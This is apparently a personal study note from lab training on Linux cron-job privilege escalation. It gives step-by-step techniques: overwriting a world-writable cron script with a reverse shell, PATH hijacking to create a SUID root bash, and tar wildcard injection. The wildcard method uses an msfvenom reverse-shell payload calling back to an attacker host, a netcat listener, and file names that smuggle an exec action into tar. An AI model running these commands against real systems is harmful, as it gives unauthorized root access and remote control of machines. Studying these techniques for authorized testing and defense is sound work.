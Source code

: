 
2024-06-15 21:28

Source: #privesc 

Tags: [[linux]]

#### Privilege Escalation

The system-wide crontab is located at `/etc/crontab`
##### File Permissions

1. view the contents of the system-wide crontab - `cat /etc/crontab`
2. Locate the (example file -  overwrite.sh) file on the server - `locate <file-name>`
3. Check the file’s permissions - Note that the file is world writable 
4. Replace the contents of the example file with a reverse shell
5. Run a netcat listener on your local machine and wait for the cron job to run.

##### PATH Environment Variable

- The system will check the directory locations in the path variable sequentially for cronjobs
1. view the contents of the system-wide crontab - `cat /etc/crontab`
2. Note that the `/home/user` directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path
3. Create the file overwrite.sh in `/home/user` with the [[rootbash]]:
```
	#!/bin/bash 
	cp /bin/bash /tmp/rootbash 
	chmod +s /tmp/rootbash
```
4. Ensure that overwrite.sh is executable
5. Once the `/tmp/rootbash` file is created, execute it (with -p to preserve the effective UID) to gain a root shell
##### Wildcard

- When a wildcard character `(*)` is provided to a command as part of an argument, the shell will first perform filename expansion (also known as globbing) on the wildcard.
- This process replaces the wildcard with a space-separated list of the file and directory names in the current directory.
- An easy way to see this in action is to run the following command from your home directory:
	$ echo *`

Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names. 
The following commands should show how this works
```
$ ls * 
% touch ./-l 
$ ls *
```
- Filenames are not simply restricted to simple options like -h or --help. 
- In fact we can create filenames that match complex options: `--option=key=value` 
- GTFOBins (https://gtfobins.github.io) can help determine whether a command has command line options which will be useful for our purposes

in the example machine we have a cronjob named `/usr/local/bin/compress.sh`
cat the file and we see the contents of the file as
```
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
on checking gtfo bins we find out there is a way to spawn a shell using tar using command line options. we can modify to our needs and spawn a reverse root shell back to our local machine 

on your local machine generate a [[revshell]] linux binary using msfvenom 
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.26 LPORT=53 -f elf -o shell.elf
```
- transfer the revshell to the target machine 
- create 2 other files in the home directory which will become command line args for the tar command when the wildcard is expanded 
```
touch ./--checkpoint=1
creates a checkpoint for every file that is processed

touch ./--checkpoint-action=exec=shell.elf\
defines an action to run at every checkpoint, in this case we want to execute the file
```
further set up a netcat listener(`nc -nvlp 53`) on your local device and wait for the cronjob to execute 
### References